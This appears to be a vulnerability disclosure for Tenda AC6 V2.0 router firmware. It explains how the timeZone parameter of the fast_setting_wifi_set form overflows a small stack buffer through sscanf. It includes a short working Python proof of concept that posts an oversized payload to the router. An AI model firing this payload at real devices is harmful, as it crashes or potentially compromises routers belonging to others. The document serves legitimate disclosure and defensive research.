 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "form_fast_setting_wifi_set"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

In the `form_fast_setting_wifi_set` function, users can craft a POST request to freely pass the **`timeZone` parameter** to the backend. This parameter is then processed by `sscanf`, which directly writes it into the **stack-allocated variable `timespand[2][4]`**. Given the small size of `timespand` (only 4 bytes per sub-array), this readily leads to a **stack overflow**.

![image-20250618171025773](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618171025773.png)

poc

```python
import requests
def send_payload(url, payload):
    params={
            'ssid':'1',
            'timeZone':payload,
            }
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x200+b':'+b'a'*0x200+b'\n'
url="http://192.168.1.1/goform/fast_setting_wifi_set"
send_payload(url, payload)   
```

![image-20250618170927278](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618170927278.png)